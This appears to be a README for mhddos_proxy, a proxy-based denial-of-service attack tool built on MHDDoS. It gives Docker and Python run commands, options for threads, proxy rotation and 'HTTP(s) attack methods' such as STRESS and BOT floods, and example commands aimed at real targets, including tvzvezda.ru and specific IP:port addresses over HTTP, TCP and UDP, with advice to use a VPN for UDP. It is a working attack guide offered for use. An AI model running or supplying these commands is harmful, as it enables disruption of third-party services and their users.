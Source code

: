 ### Docker

    docker run -it --rm portholeascend/mhddos_proxy:latest COMMAND

### Python

    python3 runner.py COMMAND

## Usage

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--udp-threads UDP_THREADS]
                     [--debug]
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 300      Threads per CPU Core (default is 300)
      -c, --config URL       URL to a config file (list of targets in plain text)
      -p, --period 300       How often to update the proxies (default is 300)
      --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 2)

      --debug                Enable debug output from MHDDoS
      --rpc 1000             How many requests to send on a single proxy connection (default is 1000)
      --udp-threads 1        Threads to run per UDP target (default is 1, change carefully)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, POST, STRESS, BOT, PPS)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

    docker run -it --rm portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**
